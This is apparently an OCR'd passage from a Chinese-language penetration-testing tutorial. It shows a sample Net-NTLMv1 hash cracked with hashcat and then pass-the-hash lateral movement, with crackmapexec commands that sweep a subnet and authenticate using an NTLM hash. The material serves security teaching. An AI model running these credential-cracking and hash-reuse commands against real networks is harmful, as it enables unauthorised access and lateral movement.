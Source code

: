 NTLMv1的格式为：

```bash
username::hostname:LM response:NTLM response:challenge
```

构造后的数据如下：

```bash
log1::WIN-BH7SVRRDGVA:fec9b082080e34ba00000000000000000000000000000000:51acb9f9909f0e3c4254c332f5e302a38429c5490206bc04:8d2da0f5e21e20ee
```

Hashcat参数如下：

```bash
hashcat -m 5500 log1::WIN-BH7SVRRDGVA:fec9b082080e34ba00000000000000000000000000000000:51acb9f9909f0e3c4254c332f5e302a38429c5490206bc04:8d2da0f5e21e20ee /tmp/password.list -o found.txt --force
```

下面，使用Hashcat对该Net-NTLM hash进行破解。NTLMv2的格式为：

```bash
username::domain:challenge:HMAC-MD5:blob
```

> 值得一提的是，在真实渗透环境下，由于密码复杂度限制，一般我们获取到的`NTML-HASH`很难直接破解出明文密码，这种情况下我们需要采用其他技术继续进行横向渗透。

## 2.Pass-The-Hash

哈希传递是能够在不需要账户明文密码的情况下完成认证的一个技术。渗透中当我们获取不到明文密码，或者破解不了NTLM Hash的情况下，哈希传递攻击能够使我们利用这些哈希继续进行横向渗透。

常用`Pass-The-Hash`工具： 

- Crackmapexec
- Mimikatz
- smbmap
- smbexec
- metasploit
- cobaltstrike

### [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

1.安装 crackmapexec

```bash
apt-get install crackmapexec
(pip install crackmapexec)
```

2.使用 crackmapexec

```bash
cme smb -h
```

批量扫描探测命令：

```python
cme smb 17.10.0.10/24
cme smb 17.10.0.10 -u administrator -H hash.txt
cme smb 17.10.0.100-200 -u administrator -H AFC44EE7351D61D00698796DA06B1EBF
```
